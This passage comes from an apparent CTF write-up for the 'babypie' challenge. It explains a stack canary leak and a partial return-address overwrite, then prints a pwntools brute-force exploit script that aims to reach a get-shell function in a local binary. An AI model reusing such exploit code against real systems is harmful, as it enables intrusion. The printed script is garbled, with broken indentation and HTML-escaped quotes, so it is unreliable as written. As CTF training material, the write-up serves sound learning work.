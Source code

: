    0x55dc43694a52:	mov    rbp,rsp

   0x55dc43694a55:	sub    rsp,0x10

```

It can be found that the return address at this time is different from the 16 bits of the address of the get shell function. If the lower 16 bits are set to `0x?A3E`, there is a certain probability of getting shell.


The final script is as follows:
```python

#!/usr/bin/env python

# -*- coding: utf-8 -*-



from pwn import *

#  context.log_level = "debug"

context.terminal = ["deepin-terminal", "-x", "sh", "-c"]



while True:

    try:

        io = process("./babypie", timeout = 1)



# gdb.attach (I)
        io.sendafter(":\n", 'a' * (0x30 - 0x8 + 1))

io.recvuntil (&#39;a&#39; * (0x30 - 0x8 + 1))
canary = &#39;0&#39; + io.recvn (7)
        success(canary.encode('hex'))



# gdb.attach (I)
        io.sendafter(":\n", 'a' * (0x30 - 0x8) + canary + 'bbbbbbbb' + '\x3E\x0A')



io.interactive ()
    except Exception as e:

io.close ()
print e
```
